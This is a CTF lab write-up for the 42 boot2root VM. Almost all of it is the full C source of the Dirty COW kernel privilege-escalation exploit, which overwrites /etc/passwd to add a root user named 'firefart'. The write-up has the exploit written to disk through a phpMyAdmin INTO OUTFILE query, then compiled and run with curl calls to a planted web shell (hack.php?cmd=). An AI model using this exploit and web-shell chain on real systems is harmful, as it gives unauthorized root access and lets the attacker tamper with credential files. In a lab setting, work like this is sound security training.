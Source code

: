 Need to do steps from [Main Way](https://github.com/MrOnimus/42_boot2root/blob/master/writeup1.md) to stage after access to cmd throgh get request.

After this need to run SQL command in phpmyadmin:
```
SELECT  '#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = \"/etc/passwd\";
const char *backup_filename = \"/tmp/passwd.bak\";
const char *salt = \"firefart\";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = \"%s:%s:%d:%d:%s:%s:%s\\n\";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf(\"madvise %d\\n\\n\", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf(\"File %s already exists! Please delete it and run again\\n\",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, \"r\");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, \"w\");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf(\"%s successfully backed up to %s\\n\",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = \"firefart\";
  user.user_id = 0;
  user.group_id = 0;
  user.info = \"pwned\";
  user.home_dir = \"/root\";
  user.shell = \"/bin/bash\";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf(\"Please enter the new password: %s\\n\", plaintext_pw);
  } else {
    plaintext_pw = getpass(\"Please enter the new password: \");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf(\"Complete line:\\n%s\\n\", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf(\"mmap: %lx\\n\",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf(\"ptrace %d\\n\",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf(\"Done! Check %s to see if the new user was created.\\n\", filename);
  printf(\"You can log in with the username \'%s\' and the password \'%s\'.\\n\\n\",
    user.username, plaintext_pw);
    printf(\"\\nDON\'T FORGET TO RESTORE! $ mv %s %s\\n\",
    backup_filename, filename);
  return 0;
}' INTO OUTFILE '/var/www/forum/templates_c/exploit.c'
FIELDS TERMINATED BY '\t' ENCLOSED BY '' ESCAPED BY ''
LINES TERMINATED BY '\r\n' STARTING BY '

```

It's dirtycow epxploit **https://www.exploit-db.com/exploits/40839**.
I change symbols for correct sql format with http://www.unit-conversion.info/texttools/replace-text/
(Replace " -> \\", ' -> \\', \n -> \\\n)

And set with help https://stackoverflow.com/questions/5268088/extra-backslash-when-select-into-outfile-in-mysql
```
LINES TERMINATED BY '\r\n'
ESCAPED BY ''
```
because lines end with '\' symbol and I couldn't compile file and escaped symboles conflict with each other.


After that compile and run exploit with:
```
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=gcc%20-pthread%20exploit.c%20-o%20exploit%20-lcrypt"
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=ls" //check if it correct compile
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=./exploit%20123"
```

And we have firefart user which is root. But I don't now how log in because su or su -c can't get passwd as argument
